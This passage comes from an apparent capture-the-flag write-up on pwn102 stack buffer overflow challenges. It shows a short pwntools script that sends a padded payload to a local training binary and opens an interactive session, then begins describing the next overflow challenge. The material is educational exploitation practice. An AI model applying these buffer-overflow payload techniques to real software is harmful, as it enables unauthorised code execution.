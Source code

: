 ```python
payload = padding + code + coffee

proc = process('./pwn102.pwn102')
proc.recvline('Am I right?')
proc.send(payload)
proc.recv()
proc.interactive()
```

![picture 10](/assets/images/c5e17fcb3ef0d9f2c1d49dbdd49aaf1d5566e3b35c19b8da824c214cbd55af98.png)  

Binary has been pwned

# PWN102 - Stack BOF - Simple Execution Flow Change
> The challenge is running on port 9002

Let's download the binary and check it locally.

It's again a simple authentication that expect text input from us

![picture 11](/assets/images/003df1b581a89c05ab5020eb4986a4c9396a786fb8734ebf47423d37470f28ee.png)  
